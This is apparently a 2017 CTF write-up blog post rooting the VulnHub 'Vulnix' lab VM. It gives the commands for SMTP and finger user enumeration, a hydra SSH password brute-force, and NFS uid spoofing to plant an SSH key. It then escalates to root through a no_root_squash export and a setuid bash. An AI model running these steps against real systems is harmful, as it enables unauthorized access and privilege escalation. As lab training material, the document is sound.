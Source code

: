 ```yaml
---
layout: post
title:  "Vulnix"
date:   2017-07-28 12:34
categories: ctf
---
```


Vulnix is a boot-to-root vulnerable machine found on [VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix,48/). I pulled this down and ran it in Virtualbox.

Getting started we will us nmap to enumerate open ports.

    nmap -p -sV 192.168.1.130

{% highlight text %}
Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-16 14:02 EDT
Nmap scan report for vulnix.hsd1.co.comcast.net (192.168.1.111)
Host is up (0.00034s latency).
Not shown: 65518 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
79/tcp open finger Linux fingerd
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd
512/tcp open exec?
513/tcp open login
514/tcp open tcpwrapped
993/tcp open ssl/imap Dovecot imapd
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 2-3 (RPC #100227)
39127/tcp open mountd 1-3 (RPC #100005)
46013/tcp open mountd 1-3 (RPC #100005)
51380/tcp open status 1 (RPC #100024)
51502/tcp open mountd 1-3 (RPC #100005)
51986/tcp open nlockmgr 1-4 (RPC #100021)
MAC Address: 08:00:27:53:D1:AF (Oracle VirtualBox virtual NIC)
Service Info: Host: vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.42 seconds
{% endhighlight %}

![Initial nmap](/assets/images/vulnix/initial_nmap.png)

We can use the postfix server to check for existing users on the machine using the VRFY command.

{% highlight text %}
nc 192.168.1.130 25
220 vulnix ESMTP Postfix (Ubuntu)
EHLO example.com
250-vulnix
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root
252 2.0.0 root
VRFY aott
550 5.1.1 <aott>: Recipient address rejected: User unknown in local recipient table
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY vulnix
252 2.0.0 vulnix
VRFY dovecot
252 2.0.0 dovecot
{% endhighlight %}

Using the `smtp-user-enum` tool we can automate this and use a wordlist.

{% highlight text %}
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

----------------------------------------------------------
| Scan Information |
----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 112
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Sat Jul 29 17:33:28 2017 #########
192.168.1.130: ROOT exists
192.168.1.130: backup exists
192.168.1.130: bin exists
192.168.1.130: daemon exists
192.168.1.130: games exists
192.168.1.130: gnats exists
192.168.1.130: irc exists
192.168.1.130: libuuid exists
192.168.1.130: lp exists
192.168.1.130: list exists
192.168.1.130: man exists
192.168.1.130: mail exists
192.168.1.130: messagebus exists
192.168.1.130: news exists
192.168.1.130: nobody exists
192.168.1.130: postmaster exists
192.168.1.130: proxy exists
192.168.1.130: root exists
192.168.1.130: sshd exists
192.168.1.130: sync exists
192.168.1.130: sys exists
192.168.1.130: syslog exists
192.168.1.130: user exists
192.168.1.130: uucp exists
192.168.1.130: www-data exists
######## Scan completed at Sat Jul 29 17:33:28 2017 #########
25 results.

112 queries in 1 seconds (112.0 queries / sec)
{% endhighlight %}

We can easily write all the existing users to a file to be used later.

    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130 | grep exists | cut -d' ' -f2 > users_exist.txt

Using this list, we can use the fact that the finger port is open to see which of these users have a login shell.

    for i in $(cat users_exist.txt); do finger $i@192.168.1.130; done

![finger](/assets/images/vulnix/fingering.png)

Knowing the users that have a login shell, we stuff those into a file called users.txt and use hydra to bruteforce a login.

    hydra -L users.txt -P /usr/share/SecLists/Passwords/10k_most_common.txt 192.168.1.130 ssh

![hydra](/assets/images/vulnix/hydra.png)

Now that we have a valid username and password (user:letmein) we can use ssh to get in and start enumeration on the box.

![ssh with low priv](/assets/images/vulnix/ssh-in.png)

On the box I start enumeration using steps here https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

![/etc/exports](/assets/images/vulnix/exports.png)

Hmmm

    /home/vulnix	*(rw,root_squash)

Looking this up I found that the * here is a wildcard meaning that /home/vulnix can be mounted from anywhere. So, let's mount it to my machine.

![mount permission denied](/assets/images/vulnix/mount_with_permission_denied.png)

Well, we can't get in there even with root. That's what that root_squash setting does. We are only going to be able to get in there using the vulnix user, so we create a local vulnix user with the same uid(2008) and gid(2008) as the remote box.

![/etc/passwd](/assets/images/vulnix/passwd_file.png)

After creating this user and switching, we are able to get into the /mnt/vulnix directory. Here we will create an ssh key that will allow us to ssh directly to the machine using the vulnix user.

![Mounted as vulnix](/assets/images/vulnix/mounted-as-vulnix.png)

    ssh-keygen -t rsa

![create ssh key](/assets/images/vulnix/create_ssh_key.png)

![Move pub key](/assets/images/vulnix/mv_ssh_pub_key.png)

    ssh vulnix@192.168.1.130 -i /home/vulnix/.ssh/id_rsa

![SSH as vulnix](/assets/images/vulnix/ssh_with_vulnix.png)

Let's see what the vulnix user can do with `sudo -l`

![sudo -l](/assets/images/vulnix/sudo_l.png)

So we are able to edit the /etc/exports file and change that root_squash to no_root_squash.

    editsudo /etc/export

After changing this file, we would need to restart networking for the changes to take effect. Sadly we don't have a user that can do that so we just manually reboot this. Obviously in a real situation we don't have control to do this so we might have to get creative.

Prior to rebooting, let's copy /bin/bash to the /home/vulnix directory for some setuid fun.

![copy bash](/assets/images/vulnix/copy_bash.png)

After the reboot, we remount /home/vulnix and are now able access that directory with the root user.

![set uid](/assets/images/vulnix/setuid_bash.png)

```
cd /mnt/vulnix
chown root bash
chmod 4755 bash
```

Now we have everything we need to escalate to root.

On the victim machine as the vulnix user, we run `bash -p` to keep permissions of the user.

![Escalate](/assets/images/vulnix/escalation_to_root.png)

BOOM! Done.
